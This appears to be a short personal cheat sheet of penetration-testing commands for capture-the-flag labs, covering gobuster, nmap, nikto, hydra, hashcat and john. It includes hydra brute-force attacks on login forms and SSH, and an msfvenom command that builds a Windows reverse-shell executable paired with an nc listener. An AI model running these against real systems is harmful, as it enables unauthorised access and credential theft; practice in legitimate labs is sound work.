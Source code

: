 # CLI Toolset

## gobuster
Site discovery
```console
gobuster -u http://fakebank.com -w wordlist.txt dir
```
```console
gobuster -u http://$MACHINE_IP -w wordlist.txt -x php,sh,txt,cgi,html,js,css,py
```

## nmap
```console
nmap -sC -sV -oN nmap/initial $IP
```
Silence discovery:
```console
nmap -sS $MACHINE_IP
```
Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc. Usage:
```console
nmap -sn $MACHINE_IP
```
Operating System Scan: Allows scanning of the type of OS running on a live host. Usage: 
```console
nmap -O $MACHINE_IP
```
Detecting Services: Get a list of running services on a live host. Usage: 
```console
nmap -sV $MACHINE_IP
```
Check for vulns also:
```console
nmap -sV -sC --script vuln $MACHINE_IP
nmap -sV -vv --script vuln  $MACHINE_IP
```

In depth search:
```console
nmap -A -p- $MACHINE_IP
```

## nikto
Webserver vuln. disc.
```console
nikto -host $MACHINE_IP:80
```

## hydra
Bruteforce

```console
hydra -l '' -P 3digits.txt -f -v $MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

```console
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://$MACHINE_IP -V
```

```console
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f -v 10.10.66.58 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -s 80
```

## crunch
Password list generator

## cewl

```console
cewl -d 2 -m 5 -w passwords.txt http://$MACHINE_IP --with-numbers
```

## nc

```console
nc -lnvp 4444
```

## msfvenom

A command-line payload generation tool

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

## john

Brute force hash pwd

```console
john --wordlist=greedykeys.txt hash.txt
```

## searchsploit

Search ExploitDB

```console
searchsploit fuel cms
```

## hashcat

MD5 hash cracker

```console
hashcat -m 0 pash /usr/share/wordlists/rockyou.txt
```

## enum4linux
eg. SMB user name enumeration
-a all
```console
enum4linux -e $IP
```

## stegcracker
Steganograpy cracer

 ```console
stegcracker <file> [<wordlist>]
```
